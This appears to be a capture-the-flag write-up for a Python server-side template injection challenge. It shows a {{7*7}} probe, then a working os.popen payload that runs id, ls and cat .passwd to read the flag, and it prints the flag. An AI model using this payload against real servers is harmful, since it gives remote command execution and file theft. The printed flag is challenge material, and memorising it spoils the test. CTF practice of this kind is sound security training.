

By supplying:  
{{7*7}} , 
and recieving: `49`, we can assume `SSTI` is working here.

So, I simply went to [PayloadAllTheThings SSTI](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/Python/) and grabbed this payload, which is called *Exploit The SSTI By Calling os.popen().read()*

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
Then, as you can see the command `id` executed.

So, I run `ls` and saw the file `.passwd` exists, and read it using `cat .passwd` to achieve the flag.

**Flag:** ***`Python_SST1_1s_co0l_4nd_mY_p4yl04ds_4r3_1ns4n3!!!`***
